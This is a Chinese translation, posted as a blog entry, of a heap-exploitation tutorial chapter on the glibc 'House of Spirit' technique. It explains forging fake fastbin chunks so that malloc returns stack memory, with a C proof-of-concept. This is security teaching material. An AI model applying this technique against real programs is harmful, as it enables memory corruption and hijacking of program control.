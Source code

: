 ```yaml
---
title: Heap Exploitation系列翻译-13 House of Spirit
tags: [CTF, pwn, heap]
layout: post
categories: translations
---
```


# House of Spirit

> 本文是对Dhaval Kapil的[Heap Exploitation](https://heap-exploitation.dhavalkapil.com/)系列教程的译文

House of Spirit 跟其他攻击略有不同, 在某种意义上来说, 它涉及到攻击者在指针释放之前去覆写已有指针. 攻击者可以在内存(堆,栈等处)的任意地方创造一个'伪堆块'并覆写一个指针去指向该伪堆块, 堆块必须通过这种方式进行构造才能通过所有的安全测试. 这其实并不难而且也只涉及到设置`size`和next chunk的`size`. 当伪堆块被释放, 它就会被插入到合适的bin链中(最好是fastbin). 在之后的malloc申请大小跟伪堆块大小一致时便能返回攻击者的伪堆块. 最终结果类似于早先描述的'forging chunks attack'

考虑以下示例代码(下载完整版本: [这里](https://heap-exploitation.dhavalkapil.com/assets/files/house_of_spirit.c)):

```c
struct fast_chunk {
  size_t prev_size;
  size_t size;
  struct fast_chunk *fd;
  struct fast_chunk *bk;
  char buf[0x20];                   // chunk falls in fastbin size range
};

struct fast_chunk fake_chunks[2];   // Two chunks in consecutive memory
// fake_chunks[0] at 0x7ffe220c5ca0
// fake_chunks[1] at 0x7ffe220c5ce0

void *ptr, *victim;

ptr = malloc(0x30);                 // First malloc

// Passes size check of "free(): invalid size"
fake_chunks[0].size = sizeof(struct fast_chunk);  // 0x40

// Passes "free(): invalid next size (fast)"
fake_chunks[1].size = sizeof(struct fast_chunk);  // 0x40

// Attacker overwrites a pointer that is about to be 'freed'
ptr = (void *)&fake_chunks[0].fd;

// fake_chunks[0] gets inserted into fastbin
free(ptr);

victim = malloc(0x30);              // 0x7ffe220c5cb0 address returned from malloc
```

注意, 跟预期一样, 返回的指针在`fake_chunks[0]`之前0x10即16字节处. 这是存储`fd`指针的地址. 这次攻击提供了更多可能的攻击. `victim`指向栈上的内存而非堆段. 通过修改栈上的返回地址, 攻击者可以控制程序的执行.
